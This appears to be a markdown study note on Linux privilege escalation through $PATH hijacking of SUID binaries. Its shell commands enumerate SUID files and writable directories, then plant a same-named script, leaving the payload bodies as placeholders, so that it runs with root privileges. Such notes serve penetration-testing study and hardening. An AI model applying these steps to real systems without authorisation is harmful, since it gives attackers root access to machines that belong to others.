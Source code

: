# $PATH

### $PATH environment variable

```bash
$ echo $ PATH
...
```

### Possible exploitable scenarios

1. A script with _**SUID**_ bit (`/usr/bin/bin-with-suid`) is found to execute a particular named script that is not defined

Assume the named script that is executed is `test-bin`

```bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/bin-with-suid

$ /usr/bin/bin-with-suid
# error message indicating that test-bin is executed, but not found
sh: 1: test-bin: not found 
```

a)`$PATH` environment variable can be edited _**ONLY**_

b) Write permissions for a default value found in the `$PATH`environment variable _**ONLY**_



_**Scenario a)**_

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin ...

$ export PATH=/tmp:$PATH 

$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin ...

$ cd /tmp
$ nano test-bin
#!/...
...

$ /usr/bin/bin-with-suid
... executes /tmp/test-bin with ROOT privileges

```

**Scenario b)**

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin ...

$ find / -writable 2>/dev/null
...
/usr/local/bin
...

$ cd /usr/local/bin
$ nano test-bin
#!/...
...

$ /usr/bin/bin-with-suid
... executes /usr/local/bin/test-bin with ROOT privileges

```



2. A script with _**SUID**_ bit (`/usr/bin/bin-with-suid`) is found to execute a named script that is defined

Assume the named script that is executed is `test-bin` (present in `/usr/local/bin/`)

a)`$PATH` environment variable can be edited _**ONLY**_

b) Write permissions for a path value in the`$PATH`environment variable _**ONLY**_



**Scenario a)**

Prepend a writable directory such as `/tmp` to the `$PATH` environment variable, and create a script with the name of that executed from the original script, in the same directory. This allows the created script to be executed with `root` privileges.

```bash
$ export PATH=/tmp:$PATH 

$ cd /tmp
$ nano test-bin
#!/...
...

$ /usr/bin/bin-with-suid
... executes /tmp/test-bin with ROOT privileges
```

**Scenario b)**

_**There are 2 further possible scenarios**_

1. The path value we have write permissions for appears before the path where the named script is found. This allows us to trick the `SUID` bit script to execute the script defined by us instead. This is because the system searches for script using the path variable listed from **left to right** in the `$PATH`environment variable

Assume that we have write permissions for the folder`/usr/local/sbin`, and this path appears to the left of the value `/usr/local/bin`(path for the original script) in`$PATH`

```bash
$ echo $PATH
/usr/local/sbin:/usr/local/bin ...

$ cd /usr/local/sbin

$ find / -name test-bin 2>/dev/null
/usr/local/bin/test-bin

$ nano test-bin
#!...
...

$ /usr/bin/bin-with-suid
# notice that the path is /usr/local/sbin, and NOT /usr/local/bin
... executes /usr/local/sbin/test-bin with ROOT privileges
```

2. We have write permissions for the actual path of the named script

```bash
$ ls -l /usr/local | grep bin
drwxrwxrwx 2 root   root   xxxx xxx  x ... bin
...

$ cd /usr/local/bin

$ rm test-bin

$ nano test-bin
#!...
...

$ /usr/bin/bin-with-suid
... executes /usr/local/bin/test-bin defined by yourself - with ROOT privileges
```

